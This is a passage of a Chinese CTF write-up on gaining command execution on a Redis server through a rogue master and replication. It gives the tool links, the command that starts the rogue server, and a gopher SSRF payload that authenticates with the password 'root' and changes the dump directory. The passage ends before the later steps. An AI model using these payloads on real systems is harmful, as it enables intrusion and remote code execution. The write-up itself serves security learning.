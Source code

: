 我们就知道考file_put_contents的死亡绕过，[博客](https://xz.aliyun.com/t/8163)

好吧，尝试了一下考的不是这个

我们发现代码中出现了redispass is root

那考点就不是这，应该要结合redis



**redis主从复制**

```
主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。
redis的持久化使得机器即使重启数据也不会丢失，因为redis服务器重启后会把硬盘上的文件重新恢复到内存中，但是如果硬盘的数据被删除的话数据就无法恢复了，如果通过主从复制就能解决这个问题，主redis的数据和从redis上的数据保持实时同步，当主redis写入数据是就会通过主从复制复制到其它从redis。
```

所以我们这题的思路是，创建一个恶意的Redis服务器作为Redis主机（master），该Redis主机能够回应其他连接他的Redis从机的响应。有了恶意的Redis主机之后，就会远程连接目标Redis服务器，通过 slaveof 命令将目标Redis服务器设置为我们恶意Redis的Redis从机（slaver）。然后将恶意Redis主机上的exp同步到Reids从机上，并将dbfilename设置为exp.so。最后再控制Redis从机（slaver）加载模块执行系统命令即可。

我们先下两个工具

```
未授权访问 : 未启用认证功能或认证密码为空，用户可直接连接
授权访问 : 能通过弱口令认证或者直接知道认证密码访问到Redis服务器
```

```
https://github.com/n0b0dyCN/redis-rogue-server
redis-rogue-server，未授权使用，python3.5以上

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server
Awsome-Redis-Rogue-Server，有授权使用
```

首先 工具一的exp.so需要复制到工具二的目录下，工具二才能使用

我们先开启主服务

```
# lport就是指定攻击机的ip和端口的，我们是内网穿透映射到虚拟机的1028端口
python3 redis_rogue_server.py -v -path exp.so -lport 1028

```

![image-20241028202033198](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282020273.png)

然后利用gopher联动redis

**首先先设置备份路径**

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
config set dir /tmp/
quit

```
